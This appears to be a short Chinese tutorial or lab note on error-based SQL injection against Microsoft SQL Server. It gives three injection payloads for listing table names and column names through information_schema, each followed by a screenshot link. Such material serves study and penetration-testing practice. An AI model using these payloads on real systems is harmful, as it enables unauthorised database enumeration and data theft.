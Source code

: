 #### 获取表名

```sql
id=-1'and 1=(select top 1 table_name from information_schema.tables where table_name not in(select top 4 table_name from information_schema.tables)) --+
```

![image-20240905160959034](./assets/image-20240905160959034.png)

#### 获取`所有`表名

```sql
id=1'and 1=(select quotename(table_name) from information_schema.tables FOR XML PATH('')) --+
```

![image-20240905161409716](./assets/image-20240905161409716.png)

#### 获取字段名

```sql
id=1'and 1=(select top 1 column_name from information_schema.columns where table_name='users' and column_name not in(select top 2 column_name from information_schema.columns where table_name='users')) --+
```

![image-20240905162348324](./assets/image-20240905162348324.png)
